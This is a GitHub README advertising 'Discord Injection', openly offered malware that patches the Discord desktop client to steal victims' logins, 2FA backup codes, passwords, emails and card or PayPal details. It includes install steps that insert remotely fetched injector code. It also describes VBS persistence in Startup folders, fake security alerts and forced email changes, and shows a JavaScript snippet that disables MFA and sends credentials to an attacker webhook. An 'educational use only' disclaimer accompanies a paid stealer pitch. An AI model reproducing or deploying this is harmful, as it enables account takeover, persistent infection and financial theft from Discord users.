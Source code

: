
[github-issues-link]: https://github.com/k4itrun/discord-injection/issues
[github-license-link]: https://github.com/k4itrun/discord-injection/blob/main/license
[github-stars-link]: https://github.com/k4itrun/discord-injection/stargazers
[github-forks-link]: https://github.com/k4itrun/discord-injection/network/members

[github-link]: https://github.com/k4itrun/discord-injection

<div align="center">

# [Discord Injection][github-link]

Interception of Discord HTTP Requests, Including Backup Code Retrieval and Deceptive User Alerts for Vulnerabilities, Among Other Techniques!

</div>

## Overview

**Discord Injection** is a tool designed to showcase the interception of HTTP requests within the Discord application. This tool highlights potential vulnerabilities by capturing critical actions and interactions that occur within Discord.

## Key Features

- **Persistence and Startup**:
  - Once the victim is injected, and everything is perfect, they simply will not be able to remove the injection.
  - Persistence works in such a way that once the user starts their Discord application, an executable is simply created that will check if it contains an injection. If so, it will not be modified, but if not, it will be injected again [More information here](#startup)

- **Forced mail change & edit user**:
  - If this setting is enabled in the automatic change mail injection, then the victim will see a fake security alert & Also if the automatic user modification configuration is active, user data will be modified

- **Login & Authentication**:
  - Intercept login, registration, and two-factor authentication (2FA) requests.
  
- **Account Management**:
  - Capture requests related to email and password changes.
  
- **Security codes**:
  - Obtains all the victim's security codes at capture time.

- **Payment Information**:
  - Monitor credit card and PayPal addition requests.
  
- **Security Measures**:
  - Automatic logout after the initial injection to prevent unauthorized access.
  - QR Code login prevention to enhance security.
  - Block requests that reveal device information.

## Installation Guide

1. **Close Discord**: Ensure that Discord is completely closed before proceeding.

2. **Copy the Injection Code**:
   - Download the [injection code](https://raw.githubusercontent.com/k4itrun/discord-injection/main/injection.js) and insert it into your Discord desktop core. Navigate to:
     ```bash
     %APPDATA%\Local\Discord\app-<app-version>\modules\discord_desktop_core-<core-version>\discord_desktop_core\index.js
     ```

3. **Configure Setup**:
   - Replace `%WEBHOOK_URL%` in the injected code with your Discord webhook URL. This webhook will receive the intercepted information.
   - Replace `%API_URL%` with our api you can get a unique url where you will get detailed information of the victims.
   - Replaces data like `%AUTO_USER_PROFILE_EDIT%`, `%AUTO_EMAIL_UPDATE%` which are a separate configuration in case you want to have an improvement in the attack.

   - *Important this do not change it*
        ```json
        injection_url: "https://raw.githubusercontent.com/k4itrun/discord-injection/main/injection.js",
        injector_url: "https://raw.githubusercontent.com/k4itrun/discord-vbs-injector/main/injector.vbs",
        ```

4. **Restart Discord**: Launch Discord again to apply the changes.

## Usage

- **Node.js Injector**:
  - For a more feature-rich injector based on Node.js, visit [Wish Stealer](https://github.com/k4itrun/wish). It's a free tool with extensive capabilities.

## Startup

- **Persistence Vbs Malware**:
  - Once the victim is injected, several instances will be created on the PC in parallel, simply once the victim is trapped they will not be able to leave.
  
  An autostart task is created on multiple routes as in
    ```Bash
    %APPDATA%\Microsoft\Protect
    ```
    ```Bash
    %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
    ```
    - Firstly, the [Injector Malware](https://raw.githubusercontent.com/k4itrun/discord-vbs-injector/main/injector.vbs) will be stored here and will be executed whenever the PC starts.

## Preview

### Auto Mfa Disabler
```js
if(CONFIG.auto_mfa_disabler === 'true') {
    await delay(5000);

    const autoMfadisablerToken = await autoMfadisabler(response, token, 'backup');

    content = {
        content: `**${user.username}** mfa was deactivated automatically!`,
        embeds: [{
            fields: [
                { name: "Password", value: `\`${password}\``, inline: true },
                { name: "Email", value: `\`${email}\``, inline: true },
            ],
        }],
    };

    notify(content, autoMfadisablerToken, user);    
};
```
*If you are interested in an improved version with more features such as auto mfa deactivator and premium options you can buy it*

## Contributing
We welcome your contributions to this project! If you have suggestions or improvements, please feel free to open an issue or submit a pull request with your changes. Your involvement from the community is highly valued.

You can support the development of this project by making a donation, which helps bring new, optimized, and improved projects to life. Alternatively, you can simply add a ⭐ star to this repository.

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/A0A11481X5)

Thank you for your interest and support! ✌️

## Contact
For inquiries, reach out at [contact@w1sh.xyz](mailto:contact@w1sh.xyz) or join our [Discord Server](https://discord.gg/XS6btuuUR7).

## License
This software is licensed under the [MIT License](LICENSE).

## Disclaimer
### Important Notice: Educational Use Only.
This tool is designed solely for educational purposes. Any misuse of this tool is strictly prohibited. By using this tool, you acknowledge and accept these terms.

### User Accountability:
By utilizing this tool, you take full responsibility for your actions. The creator disclaims any liability for misuse. It is your responsibility to ensure that your use of this software complies with all applicable laws and regulations.

### No Assistance:
The creator will not provide assistance or support for any misuse of this tool. Any inquiries related to harmful or illegal activities will be ignored.

### Terms Acceptance:
By using this tool, you agree to abide by this disclaimer. If you do not agree with these terms, please do not use the software.
